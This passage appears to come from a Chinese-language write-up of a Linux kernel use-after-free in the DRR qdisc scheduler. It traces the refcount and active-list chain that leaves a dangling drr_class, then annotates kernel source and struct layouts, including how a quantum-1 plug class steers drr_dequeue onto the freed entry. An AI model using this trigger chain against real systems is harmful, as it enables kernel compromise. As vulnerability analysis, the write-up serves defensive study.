删除 `fifo_B(1:2)` 时，`drr_destroy_class()` 执行 `qdisc_put(cl->qdisc)`，此时 `cl->qdisc` 仍为 `FIFO(777:)`，其 `refcnt` 从 1 减为 0。`__qdisc_destroy()` 随之释放 `FIFO(777:)`。同时，`kfree(cl)` 释放了 `fifo_B(1:2)` 对应的 `struct drr_class`。

由于 `drr_qlen_notify()` 未被调用，活动列表 `drr_sched.active` 仍持有该 `drr_class` 的 `alist` 节点。因此，`kfree(cl)` 之后，活动列表中残留了一个指向已释放内存的链表项，而该链表项的 `qdisc` 字段仍指向同样已被释放的 `FIFO(777:)`。悬空 `drr_class` 与悬空 `Qdisc` 由此形成。

`FIFO(777:)` 的引用计数在整个链条中的变化如下：

- 初始状态：由 `fifo_A(11:11)` 持有，`refcnt = 1`。
- 执行 replace：`tc_modify_qdisc()` 中的 `qdisc_refcount_inc()` 使其变为 `2`；graft 完成后，`fifo_A(11:11)` 与 `fifo_B(1:2)` 同时引用它。
- 删除 `drr(1:1)`：`fifo_A(11:11)` 被销毁，`qdisc_put()` 使其从 `2` 减为 `1`；`FIFO(777:)` 仍被 `fifo_B(1:2)` 引用。
- 删除 `fifo_B(1:2)`：`qdisc_put()` 使其从 `1` 减为 `0`，`__qdisc_destroy()` 释放 `FIFO(777:)`；同时 `kfree(cl)` 释放 `fifo_B(1:2)` 对应的 `drr_class`。

由于 `drr_qlen_notify()` 未被调用，活动列表中的 `alist` 节点未被摘除，形成悬空 `drr_class`；该链表项的 `qdisc` 字段仍指向已释放的 `FIFO(777:)`，形成悬空 `Qdisc`。

#### 2-2-6. 出队路径

`drr_enqueue()` 在数据包入队时，若该类此前为空，则将其 `alist` 加入活动列表：

```c
static int drr_enqueue(struct sk_buff *skb, struct Qdisc *sch,
		       struct sk_buff **to_free)
{
	unsigned int len = qdisc_pkt_len(skb);          /* 数据包长度 */
	struct drr_sched *q = qdisc_priv(sch);          /* DRR 私有调度数据 */
	struct drr_class *cl;                           /* 目标类 */
	int err = 0;
	bool first;                                     /* 该类此前是否为空 */

	/* 对数据包分类，得到目标类 */
	cl = drr_classify(skb, sch, &err);
	if (cl == NULL) {
		if (err & __NET_XMIT_BYPASS)
			qdisc_qstats_drop(sch);
		__qdisc_drop(skb, to_free);
		return err;
	}

	/* 记录该类此前是否为空 */
	first = !cl->qdisc->q.qlen;
	/* 将数据包入队到 cl->qdisc */
	err = qdisc_enqueue(skb, cl->qdisc, to_free);
	if (unlikely(err != NET_XMIT_SUCCESS)) {
		if (net_xmit_drop_count(err)) {
			cl->qstats.drops++;
			qdisc_qstats_drop(sch);
		}
		return err;
	}

	/* 首次入队时，将 alist 加入活动列表，并重置 deficit */
	if (first) {
		list_add_tail(&cl->alist, &q->active);
		cl->deficit = cl->quantum;
	}

	sch->qstats.backlog += len;
	sch->q.qlen++;
	return err;
}
```

`drr_dequeue()` 从活动列表头部取出类并调用 `cl->qdisc->ops->peek(cl->qdisc)`：

```c
static struct sk_buff *drr_dequeue(struct Qdisc *sch)
{
	struct drr_sched *q = qdisc_priv(sch);          /* DRR 私有调度数据 */
	struct drr_class *cl;                           /* 活动列表中的类 */
	struct sk_buff *skb;
	unsigned int len;

	if (list_empty(&q->active))
		goto out;

	while (1) {
		/* 从活动列表头部取出类 */
		cl = list_first_entry(&q->active, struct drr_class, alist);
		/* ★★★★★ 漏洞点 ★★★★★
		 * cl 为活动列表中残留的悬空 drr_class 条目，
		 * cl->qdisc 仍指向已被释放的 FIFO(777:)。
		 * 此处调用 cl->qdisc->ops->peek，即对已释放对象的
		 * ops 指针解引用，形成释放后重用窗口。
		 */
		skb = cl->qdisc->ops->peek(cl->qdisc);
		if (skb == NULL) {
			qdisc_warn_nonwc(__func__, cl->qdisc);
			goto out;
		}

		len = qdisc_pkt_len(skb);
		if (len <= cl->deficit) {
			/* 数据包长度不超过 deficit，可以出队 */
			cl->deficit -= len;
			skb = qdisc_dequeue_peeked(cl->qdisc);
			if (unlikely(skb == NULL))
				goto out;
			if (cl->qdisc->q.qlen == 0)
				list_del(&cl->alist);

			bstats_update(&cl->bstats, skb);
			qdisc_bstats_update(sch, skb);
			qdisc_qstats_backlog_dec(sch, skb);
			sch->q.qlen--;
			return skb;
		}

		/* 数据包长度超过 deficit，增加 deficit 并将该类
		 * 移动到活动列表尾部，等待下一轮
		 */
		cl->deficit += cl->quantum;
		list_move_tail(&cl->alist, &q->active);
	}
out:
	return NULL;
}
```

`plug(1:3)` 的 quantum 为 1，使得 `drr_dequeue()` 在遍历活动列表时，第一次迭代读取 `plug` 后因 `len > plug->deficit` 而将其旋转到活动列表尾部。第二次迭代读取的新头部正是已被释放的 `fifo_B(1:2)` 条目。`cl` 此时为悬空指针，`cl->qdisc` 指向已释放的 `FIFO(777:)`，`cl->qdisc->ops->peek` 即为释放后重用窗口。

整条链条可以概括为：`tc_modify_qdisc()` 的 replace 路径缺少父节点归属校验，使得 `FIFO(777:)` 被从 `fifo_A(11:11)` 替换到 `fifo_B(1:2)` 时 `parent` 字段未同步更新，引用计数从 1 变为 2；删除 `drr(1:1)` 后 `11:11` 不可解析，`FIFO(777:)` 的引用计数从 2 减为 1，`parent` 成为陈旧值；删除 `fifo_B(1:2)` 时，`qdisc_tree_reduce_backlog()` 中的反向查找返回 `NULL`，`drr_qlen_notify()` 未执行，活动列表保留了 `fifo_B(1:2)` 的 `drr_class` 条目；随后 `qdisc_put()` 使 `FIFO(777:)` 的引用计数从 1 减为 0 并释放该对象，`kfree(cl)` 释放 `drr_class`，但活动列表的悬空引用未被清理；最终 `drr_dequeue()` 在遍历活动列表时解引用悬空指针，在 `cl->qdisc->ops->peek` 调用点形成释放后重用窗口。

### 2-3. 核心数据结构

漏洞的触发与演化，最终都落在具体的内核对象之上。从承载整棵 qdisc 树的 `net_device`，到记录父节点关系的 `Qdisc`，再到活动列表中残留的 `drr_class`，每一层结构都在链条中承担特定角色。本节按从高层容器到最底层原语的顺序，梳理漏洞链条中涉及的关键结构体，结合 v6.12.12 内核中的实际布局与字段说明，呈现它们在 qdisc 树构建、graft 操作、通知传播与出队遍历中的具体位置与作用。

#### 2-3-1. 顶层容器

整棵 qdisc 树挂载在 `struct net_device` 之上，而设备发送队列 `struct netdev_queue` 是 qdisc 的直接宿主。graft 操作最终写入的正是 `netdev_queue` 的 `qdisc_sleeping` 字段，而 `qdisc_lookup_rcu()` 的查找起点则是 `net_device` 的 `qdisc` 与 `qdisc_hash`。

**`struct net_device`**：网络设备对象，是整棵 qdisc 树的宿主。`qdisc` 字段指向设备根 qdisc，`qdisc_hash` 保存设备上所有 qdisc 的哈希索引，`tx_queue_len` 决定默认队列长度。

```c
struct net_device {
    __u8 __cacheline_group_begin__net_device_read_tx[0];
                                        /* 发送路径 cacheline 分组起始标记 */
    union {
        struct {
            unsigned long priv_flags:32;/* 私有标志 */
            unsigned long unused:32;    /* 未使用 */
        };
        struct {
            unsigned long long priv_flags_fast;
                                        /* 私有标志快速访问 */
        };
    };
    const struct net_device_ops *netdev_ops;
                                        /* 设备操作集 */
    const struct header_ops *header_ops;
                                        /* 头部操作集 */
    struct netdev_queue *_tx;           /* 发送队列数组 */
    netdev_features_t gso_partial_features;
                                        /* GSO 部分特性 */
    unsigned int real_num_tx_queues;    /* 实际发送队列数 */
    unsigned int gso_max_size;          /* GSO 最大尺寸 */
    unsigned int gso_ipv4_max_size;     /* GSO IPv4 最大尺寸 */
    u16 gso_max_segs;                   /* GSO 最大分段数 */
    s16 num_tc;                         /* TC 数量 */
    unsigned int mtu;                   /* MTU */
    unsigned short needed_headroom;     /* 需要的头部空间 */
    struct netdev_tc_txq tc_to_txq[16]; /* TC 到 TXQ 的映射 */
    struct xps_dev_maps *xps_maps[2];   /* XPS 映射 */
    struct nf_hook_entries *nf_hooks_egress;
                                        /* egress netfilter 钩子 */
    struct bpf_mprog_entry *tcx_egress;
                                        /* egress tcx 入口 */
    __u8 __cacheline_group_end__net_device_read_tx[0];
                                        /* 发送路径 cacheline 分组结束标记 */
    __u8 __cacheline_group_begin__net_device_read_txrx[0];
                                        /* 发送接收路径 cacheline 分组起始标记 */
    union {
        struct pcpu_lstats *lstats;     /* 二层统计 */
        struct pcpu_sw_netstats *tstats;/* 软件网络统计 */
        struct pcpu_dstats *dstats;     /* 设备统计 */
    };
    unsigned long state;                /* 设备状态 */
    unsigned int flags;                 /* 设备标志 */
    unsigned short hard_header_len;     /* 硬件头部长度 */
    netdev_features_t features;         /* 设备特性 */
    struct inet6_dev *ip6_ptr;          /* IPv6 设备 */
    __u8 __cacheline_group_end__net_device_read_txrx[0];
                                        /* 发送接收路径 cacheline 分组结束标记 */
    __u8 __cacheline_group_begin__net_device_read_rx[0];
                                        /* 接收路径 cacheline 分组起始标记 */
    struct bpf_prog *xdp_prog;          /* XDP 程序 */
    struct list_head ptype_specific;    /* 特定协议类型链表 */
    int ifindex;                        /* 接口索引 */
    unsigned int real_num_rx_queues;    /* 实际接收队列数 */
    struct netdev_rx_queue *_rx;        /* 接收队列数组 */
    unsigned long gro_flush_timeout;    /* GRO 刷新超时 */
    u32 napi_defer_hard_irqs;           /* NAPI 延迟硬中断数 */
    unsigned int gro_max_size;          /* GRO 最大尺寸 */
    unsigned int gro_ipv4_max_size;     /* GRO IPv4 最大尺寸 */
    rx_handler_func_t *rx_handler;      /* 接收处理回调 */
    void *rx_handler_data;              /* 接收处理数据 */
    possible_net_t nd_net;              /* 网络命名空间 */
    struct netpoll_info *npinfo;        /* netpoll 信息 */
    struct bpf_mprog_entry *tcx_ingress;
                                        /* ingress tcx 入口 */
    __u8 __cacheline_group_end__net_device_read_rx[0];
                                        /* 接收路径 cacheline 分组结束标记 */
    char name[16];                      /* 设备名称 */
    struct netdev_name_node *name_node; /* 名称节点 */
    struct dev_ifalias *ifalias;        /* 接口别名 */
    unsigned long mem_end;              /* 内存结束地址 */
    unsigned long mem_start;            /* 内存起始地址 */
    unsigned long base_addr;            /* 基地址 */
    struct list_head dev_list;          /* 设备链表节点 */
    struct list_head napi_list;         /* NAPI 链表节点 */
    struct list_head unreg_list;        /* 注销链表节点 */
    struct list_head close_list;        /* 关闭链表节点 */
    struct list_head ptype_all;         /* 所有协议类型链表 */
    struct {
        struct list_head upper;         /* 上层设备链表 */
        struct list_head lower;         /* 下层设备链表 */
    } adj_list;
    xdp_features_t xdp_features;        /* XDP 特性 */
    const struct xdp_metadata_ops *xdp_metadata_ops;
                                        /* XDP 元数据操作集 */
    const struct xsk_tx_metadata_ops *xsk_tx_metadata_ops;
                                        /* XSK 发送元数据操作集 */
    unsigned short gflags;              /* 全局标志 */
    unsigned short needed_tailroom;     /* 需要的尾部空间 */
    netdev_features_t hw_features;      /* 硬件特性 */
    netdev_features_t wanted_features;  /* 期望特性 */
    netdev_features_t vlan_features;    /* VLAN 特性 */
    netdev_features_t hw_enc_features;  /* 硬件封装特性 */
    netdev_features_t mpls_features;    /* MPLS 特性 */
    unsigned int min_mtu;               /* 最小 MTU */
    unsigned int max_mtu;               /* 最大 MTU */
    unsigned short type;                /* 设备类型 */
    unsigned char min_header_len;       /* 最小头部长度 */
    unsigned char name_assign_type;     /* 名称分配类型 */
    int group;                          /* 分组 */
    struct net_device_stats stats;      /* 设备统计 */
    struct net_device_core_stats *core_stats;
                                        /* 核心统计 */
    atomic_t carrier_up_count;          /* 载波上线计数 */
    atomic_t carrier_down_count;        /* 载波下线计数 */
    const struct iw_handler_def *wireless_handlers;
                                        /* 无线处理回调 */
    struct iw_public_data *wireless_data;
                                        /* 无线数据 */
    const struct ethtool_ops *ethtool_ops;
                                        /* ethtool 操作集 */
    const struct l3mdev_ops *l3mdev_ops;/* L3 主设备操作集 */
    const struct ndisc_ops *ndisc_ops;  /* 邻居发现操作集 */
    const struct xfrmdev_ops *xfrmdev_ops;
                                        /* XFRM 设备操作集 */
    const struct tlsdev_ops *tlsdev_ops;/* TLS 设备操作集 */
    unsigned int operstate;             /* 操作状态 */
    unsigned char link_mode;            /* 链路模式 */
    unsigned char if_port;              /* 接口端口 */
    unsigned char dma;                  /* DMA 通道 */
    unsigned char perm_addr[32];        /* 永久地址 */
    unsigned char addr_assign_type;     /* 地址分配类型 */
    unsigned char addr_len;             /* 地址长度 */
    unsigned char upper_level;          /* 上层层级 */
    unsigned char lower_level;          /* 下层层级 */
    unsigned short neigh_priv_len;      /* 邻居私有长度 */
    unsigned short dev_id;              /* 设备 ID */
    unsigned short dev_port;            /* 设备端口 */
    int irq;                            /* 中断号 */
    u32 priv_len;                       /* 私有数据长度 */
    spinlock_t addr_list_lock;          /* 地址链表锁 */
    struct netdev_hw_addr_list uc;      /* 单播地址链表 */
    struct netdev_hw_addr_list mc;      /* 多播地址链表 */
    struct netdev_hw_addr_list dev_addrs;
                                        /* 设备地址链表 */
    struct kset *queues_kset;           /* 队列 kset */
    unsigned int promiscuity;           /* 混杂模式计数 */
    unsigned int allmulti;              /* 全多播计数 */
    bool uc_promisc;                    /* 单播混杂模式 */
    struct in_device *ip_ptr;           /* IPv4 设备 */
    struct vlan_info *vlan_info;        /* VLAN 信息 */
    struct dsa_port *dsa_ptr;           /* DSA 端口 */
    struct tipc_bearer *tipc_ptr;       /* TIPC bearer */
    void *atalk_ptr;                    /* AppleTalk 指针 */
    void *ax25_ptr;                     /* AX.25 指针 */
    struct wireless_dev *ieee80211_ptr; /* IEEE 802.11 设备 */
    struct wpan_dev *ieee802154_ptr;    /* IEEE 802.15.4 设备 */
    struct mpls_dev *mpls_ptr;          /* MPLS 设备 */
    struct mctp_dev *mctp_ptr;          /* MCTP 设备 */
    const unsigned char *dev_addr;      /* 设备地址 */
    unsigned int num_rx_queues;         /* 接收队列数 */
    unsigned int xdp_zc_max_segs;       /* XDP 零拷贝最大分段数 */
    struct netdev_queue *ingress_queue; /* ingress 队列 */
    struct nf_hook_entries *nf_hooks_ingress;
                                        /* ingress netfilter 钩子 */
    unsigned char broadcast[32];        /* 广播地址 */
    struct cpu_rmap *rx_cpu_rmap;       /* 接收 CPU 映射 */
    struct hlist_node index_hlist;      /* 索引哈希节点 */
    unsigned int num_tx_queues;         /* 发送队列数 */
    struct Qdisc *qdisc;                /* 根 qdisc，设备级 qdisc 树的起点 */
    unsigned int tx_queue_len;          /* 发送队列长度 */
    spinlock_t tx_global_lock;          /* 发送全局锁 */
    struct xdp_dev_bulk_queue *xdp_bulkq;
                                        /* XDP 批量队列 */
    struct hlist_head qdisc_hash[16];   /* qdisc 哈希表，qdisc_lookup_rcu 查找此表 */
    struct timer_list watchdog_timer;   /* 看门狗定时器 */
    int watchdog_timeo;                 /* 看门狗超时 */
    u32 proto_down_reason;              /* 协议下线原因 */
    struct list_head todo_list;         /* 待办链表 */
    int *pcpu_refcnt;                   /* per-CPU 引用计数 */
    struct ref_tracker_dir refcnt_tracker;
                                        /* 引用计数追踪 */
    struct list_head link_watch_list;   /* 链路监视链表 */
    u8 reg_state;                       /* 注册状态 */
    bool dismantle;                     /* 是否正在拆除 */
    enum {RTNL_LINK_INITIALIZED, RTNL_LINK_INITIALIZING} rtnl_link_state : 16;
                                        /* rtnl 链路状态 */
    bool needs_free_netdev;             /* 是否需要释放 netdev */
    void (*priv_destructor)(struct net_device *);
                                        /* 私有析构函数 */
    void *ml_priv;                      /* 多层私有数据 */
    enum netdev_ml_priv_type ml_priv_type;
                                        /* 多层私有数据类型 */
    enum netdev_stat_type pcpu_stat_type : 8;
                                        /* per-CPU 统计类型 */
    struct garp_port *garp_port;        /* GARP 端口 */
    struct mrp_port *mrp_port;          /* MRP 端口 */
    struct dm_hw_stat_delta *dm_private;/* 设备映射私有数据 */
    struct device dev;                  /* 设备模型 */
    const struct attribute_group *sysfs_groups[4];
                                        /* sysfs 属性组 */
    const struct attribute_group *sysfs_rx_queue_group;
                                        /* sysfs 接收队列属性组 */
    const struct rtnl_link_ops *rtnl_link_ops;
                                        /* rtnl 链路操作集 */
    const struct netdev_stat_ops *stat_ops;
                                        /* 统计操作集 */
    const struct netdev_queue_mgmt_ops *queue_mgmt_ops;
                                        /* 队列管理操作集 */
    unsigned int tso_max_size;          /* TSO 最大尺寸 */
    u16 tso_max_segs;                   /* TSO 最大分段数 */
    const struct dcbnl_rtnl_ops *dcbnl_ops;
                                        /* DCB netlink 操作集 */
    u8 prio_tc_map[16];                 /* 优先级到 TC 的映射 */
    unsigned int fcoe_ddp_xid;          /* FCoE DDP XID */
    struct netprio_map *priomap;        /* 网络优先级映射 */
    struct phy_link_topology *link_topo;/* 物理链路拓扑 */
    struct phy_device *phydev;          /* 物理设备 */
    struct sfp_bus *sfp_bus;            /* SFP 总线 */
    struct lock_class_key *qdisc_tx_busylock;
                                        /* qdisc 发送忙碌锁 key */
    bool proto_down;                    /* 协议下线 */
    bool threaded;                      /* 是否线程化 */
    unsigned long see_all_hwtstamp_requests : 1;
                                        /* 是否查看所有硬件时间戳请求 */
    unsigned long change_proto_down : 1;/* 是否变更协议下线 */
    unsigned long netns_local : 1;      /* 是否网络命名空间本地 */
    unsigned long fcoe_mtu : 1;         /* FCoE MTU */
    struct list_head net_notifier_list; /* 网络通知链表 */
    const struct macsec_ops *macsec_ops;
                                        /* MACsec 操作集 */
    const struct udp_tunnel_nic_info *udp_tunnel_nic_info;
                                        /* UDP 隧道网卡信息 */
    struct udp_tunnel_nic *udp_tunnel_nic;
                                        /* UDP 隧道网卡 */
    struct ethtool_netdev_state *ethtool;
                                        /* ethtool 状态 */
    struct bpf_xdp_entity xdp_state[3]; /* XDP 状态 */
    u8 dev_addr_shadow[32];             /* 设备地址影子 */
    netdevice_tracker linkwatch_dev_tracker;
                                        /* 链路监视设备追踪 */
    netdevice_tracker watchdog_dev_tracker;
                                        /* 看门狗设备追踪 */
    netdevice_tracker dev_registered_tracker;
                                        /* 设备注册追踪 */
    struct rtnl_hw_stats64 *offload_xstats_l3;
                                        /* 三层卸载统计 */
    struct devlink_port *devlink_port;  /* devlink 端口 */
    struct dpll_pin *dpll_pin;          /* DPLL 引脚 */
    struct hlist_head page_pools;       /* 页池链表 */
    struct dim_irq_moder *irq_moder;    /* 中断调节器 */
    u8 priv[];                          /* 私有数据 */
};
```

**`struct netdev_queue`**：设备发送队列，是 qdisc 挂载的直接宿主。`qdisc` 保存当前活跃 qdisc，`qdisc_sleeping` 保存睡眠状态 qdisc。`dev_graft_qdisc()` 同时操作这两个字段。

```c
struct netdev_queue {
    struct net_device *dev;             /* 所属设备 */
    netdevice_tracker dev_tracker;      /* 设备引用追踪 */
    struct Qdisc *qdisc;                /* 当前活跃的 qdisc */
    struct Qdisc *qdisc_sleeping;       /* 睡眠状态的 qdisc，dev_graft_qdisc 操作此字段 */
    struct kobject kobj;                /* sysfs kobject */
    unsigned long tx_maxrate;           /* 最大发送速率 */
    atomic_long_t trans_timeout;        /* 发送超时计数 */
    struct net_device *sb_dev;          /* 从属设备 */
    struct xsk_buff_pool *pool;         /* XSK 缓冲池 */
    struct dql dql;                     /* 动态队列限制 */
    spinlock_t _xmit_lock;              /* 发送锁 */
    int xmit_lock_owner;                /* 发送锁持有者 */
    unsigned long trans_start;          /* 发送开始时间 */
    unsigned long state;                /* 队列状态 */
    struct napi_struct *napi;           /* 关联的 NAPI */
    int numa_node;                      /* NUMA 节点 */
};
```

#### 2-3-2. qdisc 层

每个 qdisc 对象都由 `struct Qdisc` 表示，其行为由 `struct Qdisc_ops` 描述；若该 qdisc 支持类，则 `Qdisc_ops->cl_ops` 指向 `struct Qdisc_class_ops`。DRR 的 graft、查找与通知回调均通过该操作集分发。

**`struct Qdisc`**：队列规则的核心对象。`FIFO(777:)` 与 `fifo_B(1:2)` 的默认 pfifo 均为该类型。`parent` 字段记录父节点 ID，`ops` 指向操作集，`refcnt` 管理引用计数。

```c
struct Qdisc {
    int (*enqueue)(struct sk_buff *, struct Qdisc *, struct sk_buff **);
                                        /* 入队回调，由具体调度器实现 */
    struct sk_buff *(*dequeue)(struct Qdisc *);
                                        /* 出队回调，由具体调度器实现 */
    unsigned int flags;                 /* qdisc 状态标志，如 TCQ_F_NOLOCK、TCQ_F_BUILTIN 等 */
    u32 limit;                          /* pfifo 类 qdisc 的队列长度上限 */
    const struct Qdisc_ops *ops;        /* 指向该 qdisc 的操作集 */
    struct qdisc_size_table *stab;      /* 可选的尺寸表，用于计算数据包开销 */
    struct hlist_node hash;             /* 设备 qdisc 哈希表的链表节点 */
    u32 handle;                         /* 该 qdisc 的唯一标识，如 777: */
    u32 parent;                         /* 父节点 ID，本例中指向 fifo_A(11:11) 的 11:11 */
    struct netdev_queue *dev_queue;     /* 所属设备发送队列 */
    struct net_rate_estimator *rate_est;/* 速率估计器 */
    struct gnet_stats_basic_sync *cpu_bstats;
                                        /* per-CPU 基础统计，按需分配 */
    struct gnet_stats_queue *cpu_qstats;/* per-CPU 队列统计，按需分配 */
    int pad;                            /* 对齐填充 */
    refcount_t refcnt;                  /* 引用计数，初始为 1，替换后变为 2 */
    struct sk_buff_head gso_skb;        /* GSO 辅助队列 */
    struct qdisc_skb_head q;            /* 主队列，保存待发送数据包 */
    struct gnet_stats_basic_sync bstats;/* 基础统计，如字节数、包数 */
    struct gnet_stats_queue qstats;     /* 队列统计，如 qlen、backlog、drops */
    int owner;                          /* 所属者标识 */
    unsigned long state;                /* 状态标志 */
    unsigned long state2;               /* 辅助状态标志 */
    struct Qdisc *next_sched;           /* 下一个调度器指针 */
    struct sk_buff_head skb_bad_txq;    /* 发送失败的数据包队列 */
    spinlock_t busylock;                /* 主锁，保护队列操作 */
    spinlock_t seqlock;                 /* 顺序锁，用于无锁 qdisc */
    struct callback_head rcu;           /* RCU 回调头，用于延迟释放 */
    netdevice_tracker dev_tracker;      /* 设备引用追踪 */
    struct lock_class_key root_lock_key;/* 锁类 key，用于死锁检测 */
    long privdata[];                    /* 调度器私有数据，按 ops->priv_size 分配 */
};
```

**`struct Qdisc_ops`**：qdisc 的操作集。`peek` 是 UAF 触发点所调用的函数指针，`cl_ops` 指向类操作集。

```c
struct Qdisc_ops {
    struct Qdisc_ops *next;             /* 全局 qdisc 操作集链表的下一个节点 */
    const struct Qdisc_class_ops *cl_ops;
                                        /* 类操作集，仅支持类的调度器非空 */
    char id[16];                        /* qdisc 名称，如 "pfifo"、"drr" */
    int priv_size;                      /* 私有数据大小 */
    unsigned int static_flags;          /* 静态标志，如 TCQ_F_CPUSTATS */
    int (*enqueue)(struct sk_buff *, struct Qdisc *, struct sk_buff **);
                                        /* 入队回调 */
    struct sk_buff *(*dequeue)(struct Qdisc *);
                                        /* 出队回调 */
    struct sk_buff *(*peek)(struct Qdisc *);
                                        /* 查看队首数据包，UAF 触发点调用此指针 */
    int (*init)(struct Qdisc *, struct nlattr *, struct netlink_ext_ack *);
                                        /* 初始化回调 */
    void (*reset)(struct Qdisc *);      /* 重置回调 */
    void (*destroy)(struct Qdisc *);    /* 销毁回调 */
    int (*change)(struct Qdisc *, struct nlattr *, struct netlink_ext_ack *);
                                        /* 参数变更回调 */
    void (*attach)(struct Qdisc *);     /* 挂载回调 */
    int (*change_tx_queue_len)(struct Qdisc *, unsigned int);
                                        /* 变更发送队列长度回调 */
    void (*change_real_num_tx)(struct Qdisc *, unsigned int);
                                        /* 变更真实发送队列数回调 */
    int (*dump)(struct Qdisc *, struct sk_buff *);
                                        /* dump 回调 */
    int (*dump_stats)(struct Qdisc *, struct gnet_dump *);
                                        /* dump 统计回调 */
    void (*ingress_block_set)(struct Qdisc *, u32);
                                        /* 设置 ingress block 回调 */
    void (*egress_block_set)(struct Qdisc *, u32);
                                        /* 设置 egress block 回调 */
    u32 (*ingress_block_get)(struct Qdisc *);
                                        /* 获取 ingress block 回调 */
    u32 (*egress_block_get)(struct Qdisc *);
                                        /* 获取 egress block 回调 */
    struct module *owner;               /* 所属模块 */
};
```

**`struct Qdisc_class_ops`**：类操作集。DRR 的 `find` 指向 `drr_search_class()`，`graft` 指向 `drr_graft_class()`，`qlen_notify` 指向 `drr_qlen_notify()`。

```c
struct Qdisc_class_ops {
    unsigned int flags;                 /* 类操作标志 */
    struct netdev_queue *(*select_queue)(struct Qdisc *, struct tcmsg *);
                                        /* 选择发送队列回调 */
    int (*graft)(struct Qdisc *, unsigned long, struct Qdisc *, struct Qdisc **, struct netlink_ext_ack *);
                                        /* graft 回调，DRR 指向 drr_graft_class() */
    struct Qdisc *(*leaf)(struct Qdisc *, unsigned long);
                                        /* 获取类持有的叶子 qdisc */
    void (*qlen_notify)(struct Qdisc *, unsigned long);
                                        /* 队列长度变化通知，DRR 指向 drr_qlen_notify() */
    unsigned long (*find)(struct Qdisc *, u32);
                                        /* 按 classid 查找类，DRR 指向 drr_search_class() */
    int (*change)(struct Qdisc *, u32, u32, struct nlattr **, unsigned long *, struct netlink_ext_ack *);
                                        /* 类变更回调 */
    int (*delete)(struct Qdisc *, unsigned long, struct netlink_ext_ack *);
                                        /* 类删除回调，DRR 指向 drr_delete_class() */
    void (*walk)(struct Qdisc *, struct qdisc_walker *);
                                        /* 遍历回调 */
    struct tcf_block *(*tcf_block)(struct Qdisc *, unsigned long, struct netlink_ext_ack *);
                                        /* 获取 tcf_block 回调 */
    unsigned long (*bind_tcf)(struct Qdisc *, unsigned long, u32);
                                        /* 绑定过滤器回调 */
    void (*unbind_tcf)(struct Qdisc *, unsigned long);
                                        /* 解绑过滤器回调 */
    int (*dump)(struct Qdisc *, unsigned long, struct sk_buff *, struct tcmsg *);
                                        /* dump 回调 */
    int (*dump_stats)(struct Qdisc *, unsigned long, struct gnet_dump *);
                                        /* dump 统计回调 */
};
```

#### 2-3-3. 类与调度器层

DRR 类的通用头部由 `struct Qdisc_class_common` 描述，所有类通过 `struct Qdisc_class_hash` 组织为哈希表。每个 DRR 类由 `struct drr_class` 表示，而整个 DRR 调度器的私有数据由 `struct drr_sched` 保存，其 `active` 链表正是悬空引用的来源。

**`struct Qdisc_class_common`**：类的通用头部。`drr_class` 通过 `container_of()` 从该结构还原。

```c
struct Qdisc_class_common {
    u32 classid;                        /* 类标识，如 1:2、11:11 */
    unsigned int filter_cnt;            /* 过滤器计数，大于 0 表示类仍在使用 */
    struct hlist_node hnode;            /* 类哈希表的链表节点 */
};
```

**`struct Qdisc_class_hash`**：类哈希表。`drr_sched` 通过该结构管理所有 DRR 类。

```c
struct Qdisc_class_hash {
    struct hlist_head *hash;            /* 哈希桶数组 */
    unsigned int hashsize;              /* 哈希桶数量 */
    unsigned int hashmask;              /* 哈希掩码，等于 hashsize - 1 */
    unsigned int hashelems;             /* 当前元素数量 */
};
```

**`struct drr_class`**：DRR 类对象。`alist` 是活动列表节点，`qdisc` 指向该类持有的子 qdisc。悬空 `drr_class` 即该类型。

```c
struct drr_class {
    struct Qdisc_class_common common;   /* 类通用头部，包含 classid、filter_cnt、hnode */
    struct gnet_stats_basic_sync bstats;/* 基础统计 */
    struct gnet_stats_queue qstats;     /* 队列统计 */
    struct net_rate_estimator *rate_est;/* 速率估计器 */
    struct list_head alist;             /* 活动列表节点，悬空链表项即此字段 */
    struct Qdisc *qdisc;                /* 该类持有的子 qdisc，悬空时指向已释放的 FIFO(777:) */
    u32 quantum;                        /* 每轮调度配额，plug(1:3) 的 quantum 为 1 */
    u32 deficit;                        /* 当前剩余配额 */
};
```

**`struct drr_sched`**：DRR 私有调度数据。`active` 链表是悬空引用的来源。

```c
struct drr_sched {
    struct list_head active;            /* 活动列表，保存有待发送数据包的类 */
    struct tcf_proto *filter_list;      /* 过滤器链 */
    struct tcf_block *block;            /* tcf_block */
    struct Qdisc_class_hash clhash;     /* 类哈希表 */
};
```

#### 2-3-4. 调度器私有数据

PLUG 调度器的私有数据由 `struct plug_sched_data` 保存。`plug(1:3)` 的 quantum 为 1，正是通过该结构中的字段控制活动列表的迭代顺序。

**`struct plug_sched_data`**：PLUG 私有调度数据。

```c
struct plug_sched_data {
    bool unplug_indefinite;             /* 是否无限期不释放 */
    bool throttled;                     /* 是否已节流 */
    u32 limit;                          /* 队列长度上限 */
    u32 pkts_current_epoch;             /* 当前轮入队包数 */
    u32 pkts_last_epoch;                /* 上一轮入队包数 */
    u32 pkts_to_release;                /* 待释放包数 */
};
```

#### 2-3-5. 分类层

数据包进入 qdisc 后，由 `struct tcf_proto` 描述的过滤器链完成分类，分类结果保存在 `struct tcf_result` 中。`drr_classify()` 正是通过该路径决定数据包进入 `plug(1:3)` 还是 `fifo_B(1:2)`。

**`struct tcf_proto`**：过滤器协议对象。`__tcf_classify()` 遍历该链表完成分类。

```c
struct tcf_proto {
    struct tcf_proto *next;             /* 下一个过滤器协议 */
    void *root;                         /* 过滤器根指针 */
    int (*classify)(struct sk_buff *, const struct tcf_proto *, struct tcf_result *);
                                        /* 分类回调 */
    __be16 protocol;                    /* 协议类型 */
    u32 prio;                           /* 优先级 */
    void *data;                         /* 私有数据 */
    const struct tcf_proto_ops *ops;    /* 操作集 */
    struct tcf_chain *chain;            /* 所属链 */
    spinlock_t lock;                    /* 锁 */
    bool deleting;                      /* 是否正在删除 */
    bool counted;                       /* 是否已计数 */
    refcount_t refcnt;                  /* 引用计数 */
    struct callback_head rcu;           /* RCU 回调头 */
    struct hlist_node destroy_ht_node;  /* 销毁哈希表节点 */
};
```

**`struct tcf_result`**：分类结果。包含 `class` 与 `classid`，用于定位目标 `drr_class`。

```c
struct tcf_result {
    union {
        struct {
            unsigned long class;        /* 目标类指针 */
            u32 classid;                /* 目标类标识 */
        };
        const struct tcf_proto *goto_tp;/* 跳转目标 */
    };
};
```

**`struct sk_buff`**：数据包对象。`drr_enqueue()`、`drr_dequeue()`、`tcf_classify()` 均以其为参数。此处列出与漏洞相关的主要字段。

```c
struct sk_buff {
    union {
        struct {
            struct sk_buff *next;       /* 链表下一节点 */
